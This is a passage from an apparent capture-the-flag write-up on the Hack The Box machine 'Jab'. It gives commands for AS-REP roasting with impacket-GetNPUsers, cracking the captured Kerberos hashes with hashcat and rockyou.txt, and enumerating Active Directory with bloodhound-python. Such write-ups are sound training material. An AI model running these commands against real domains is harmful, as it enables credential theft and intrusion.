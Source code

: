 Next, I tried AS-REP Roasting.

__Command:__ `impacket-GetNPUsers -dc-ip <IP> jab.htb/ -usersfile users.txt -format hashcat -outputfile hashes.txt`

I got 3 hashes from users who had pre-authentication disabled.

![Screenshot5](./Screenshots/5.png)

![Screenshot6](./Screenshots/6.png)

<br>

### Crack Hash

The hash was quickly cracked with the __rockyou.txt__ list.

__Command:__ `hashcat -m 18200 hashes.txt /usr/share/wordlists/rockyou.txt`

![Screenshot7](./Screenshots/7.png)

<br>

### Bloodhound

Now that I had a valid user, I enumerated the AD using `bloodhound-python` to be able to look at different things in Bloodhound.

__Command:__ `bloodhound-python -u <USERNAME> -p <PASS> -ns <IP> -d jab.htb -c all --zip`

